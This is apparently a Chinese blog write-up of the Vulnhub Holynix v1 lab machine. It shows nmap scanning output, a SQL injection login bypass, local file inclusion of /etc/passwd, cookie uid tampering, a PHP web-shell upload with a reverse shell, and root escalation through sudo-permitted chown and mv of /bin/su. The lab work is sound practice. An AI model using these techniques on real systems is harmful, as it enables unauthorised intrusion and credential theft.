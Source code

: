 ```yaml
---
title: Vulnhub-Holynix：v1
published: 2025-03-09 16:17:52
tags: [Vulnhub]
category: 靶机
draft: false
---
```


# Holynix：v1

> [https://www.vulnhub.com/entry/holynix-v1,20/](https://www.vulnhub.com/entry/holynix-v1,20/)
> 

## 主机发现端口扫描

1. 探测存活主机，`153`为靶机
    
    ```php
    nmap -sP 192.168.75.0/24      
    //                      
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:09 CST
    Nmap scan report for 192.168.75.1
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:C0:00:08 (VMware)
    Nmap scan report for 192.168.75.2
    Host is up (0.00026s latency).
    MAC Address: 00:50:56:FB:CA:45 (VMware)
    Nmap scan report for 192.168.75.153
    Host is up (0.0016s latency).
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Nmap scan report for 192.168.75.254
    Host is up (0.0013s latency).
    MAC Address: 00:50:56:FB:E7:F4 (VMware)
    Nmap scan report for 192.168.75.151
    Host is up.
    
    ```
    
2. 扫描主机所有端口
    
    ```php
    nmap -sT -min-rate 10000 -p- 192.168.75.153     
    //    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:10 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00054s latency).
    Not shown: 65534 closed tcp ports (conn-refused)
    PORT   STATE SERVICE
    80/tcp open  http
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
3. 扫描服务版本及系统版本
    
    ```php
    nmap -sT -sV -O -p80 192.168.75.153    
    //   
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:11 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.0012s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running: Linux 2.6.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6
    OS details: Linux 2.6.24 - 2.6.25
    Network Distance: 1 hop
    ```
    
4. 扫描漏洞
    
    ```sql
    nmap -script=vuln -p80 192.168.75.153    
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-25 19:12 CST
    Nmap scan report for 192.168.75.153
    Host is up (0.00059s latency).
    
    PORT   STATE SERVICE
    80/tcp open  http
    |_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
    |_http-dombased-xss: Couldn't find any DOM based XSS.
    | http-csrf: 
    | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.75.153
    |   Found the following possible CSRF vulnerabilities: 
    |     
    |     Path: http://192.168.75.153:80/?page=login.php
    |     Form id: 
    |     Form action: /index.php?page=login.php
    |     
    |     Path: http://192.168.75.153:80/index.php?page=login.php
    |     Form id: 
    |_    Form action: /index.php?page=login.php
    | http-slowloris-check: 
    |   VULNERABLE:
    |   Slowloris DOS attack
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2007-6750
    |       Slowloris tries to keep many connections to the target web server open and hold
    |       them open as long as possible.  It accomplishes this by opening connections to
    |       the target web server and sending a partial request. By doing so, it starves
    |       the http server's resources causing Denial Of Service.
    |       
    |     Disclosure date: 2009-09-17
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
    |_      http://ha.ckers.org/slowloris/
    |_http-trace: TRACE is enabled
    | http-sql-injection: 
    |   Possible sqli for queries:
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    |     http://192.168.75.153:80/index.php?page=login.php%27%20OR%20sqlspider
    |_    http://192.168.75.153:80/?page=login.php%27%20OR%20sqlspider
    | http-enum: 
    |   /login.php: Possible admin folder
    |   /login/: Login page
    |   /home/: Potentially interesting folder
    |   /icons/: Potentially interesting folder w/ directory listing
    |   /img/: Potentially interesting folder
    |   /index/: Potentially interesting folder
    |   /misc/: Potentially interesting folder
    |   /transfer/: Potentially interesting folder
    |_  /upload/: Potentially interesting folder
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    MAC Address: 00:0C:29:BC:05:DE (VMware)
    ```
    
    一些页面可能存在`sql`注入以及`csrf` ，和一些让人感兴趣的目录
    

## web渗透

1. `Login`页面可能存在`sql`注入
    
    尝试后`name`框不存在注入，`password`框存在注入
    
    使用万能密码`1'or'1` 进入后台
    
2. 进入后台用户是`alamo` 
    
    看到有`upload`，尝试上传`shell`，显示该用户不允许上传文件
    
    `security`页面存在本文件包含，是个下拉选项框，可以修改属性达到包含本地目录，因为他的属性就是路径，修改为`/etc/passwd`
    
    ```sql
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/bin/sh
    bin:x:2:2:bin:/bin:/bin/sh
    sys:x:3:3:sys:/dev:/bin/sh
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/bin/sh
    man:x:6:12:man:/var/cache/man:/bin/sh
    lp:x:7:7:lp:/var/spool/lpd:/bin/sh
    mail:x:8:8:mail:/var/mail:/bin/sh
    news:x:9:9:news:/var/spool/news:/bin/sh
    uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh
    www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh
    list:x:38:38:Mailing List Manager:/var/list:/bin/sh
    irc:x:39:39:ircd:/var/run/ircd:/bin/sh
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
    nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
    libuuid:x:100:101::/var/lib/libuuid:/bin/sh
    dhcp:x:101:102::/nonexistent:/bin/false
    syslog:x:102:103::/home/syslog:/bin/false
    klog:x:103:104::/home/klog:/bin/false
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
    alamo:x:1000:115::/home/alamo:/bin/bash
    etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
    gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
    hreiser:x:1003:50::/home/hreiser:/bin/bash
    jdraper:x:1004:100::/home/jdraper:/bin/bash
    jjames:x:1005:50::/home/jjames:/bin/bash
    jljohansen:x:1006:115::/home/jljohansen:/bin/bash
    ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
    kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
    mrbutler:x:1009:50::/home/mrbutler:/bin/bash
    rtmorris:x:1010:100::/home/rtmorris:/bin/bash
    ```
    
3. 抓包查看，发现`cookie`设置当前`uid=1`，尝试修改`cookie`的`uid=2`，切换用户成功，切换到了`etenenbaum` ，尝试上传`shell`文件(shell文件使用`/usr/shar/lau../php`里面的，我自己上传的`shell`有问题)
    
    ![image.png](image%2017.png)
    
    上传成功，因为标题显示`home`目录`upload`，所以存放在`/~etenenbaum` 
    
    打开文件发现失败，可能是权限不够，我们勾选自动解压看看是否能执行
    
    将文件使用gizp压缩后上传，在访问家目录，发现存在shell文件了
    
    ![image.png](image%2018.png)
    
    点开始空白页，就表示可以执行，应该是两种方式上传后的权限不一样
    
    ps：假如压缩包上传不了，抓包将`MIME`的`x-gzip`改为`gizp`就行，可以文件包含漏洞包含`transfer.php`代码审计
    
4. `kali`监听`1234`端口，然后访问`shell`文件，获得shell

## 提权

1. 查看权限
    
    ```sql
    www-data@holynix:/$ whoami 
    www-data
    //
    www-data@holynix:/$ uname -a
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
    //
    www-data@holynix:/$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    //
    www-data@holynix:/$ sudo -l
    User www-data may run the following commands on this host:
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /bin/chgrp
        (root) NOPASSWD: /bin/tar
        (root) NOPASSWD: /bin/mv
    ```
    
    好几条存在sudo不用密码的，可能可以利用
    
2. mv可以干很多事
    - 改`shadow`所属组
        
        ```sql
        www-data@holynix:/home$ sudo chown www-data /etc/shadow
        
        ```
        
        然后使用`john`破解
        
    - 将`/bin/su`替换成`/bin/tar`那么我们就拥有`root shell`了
        
        ```sql
        www-data@holynix:/home$ sudo mv /bin/tar /bin/tar.b
        www-data@holynix:/home$ sudo mv /bin/su /bin/tar
        www-data@holynix:/home$ sudo /bin/tar
        root@holynix:/home# 
        ```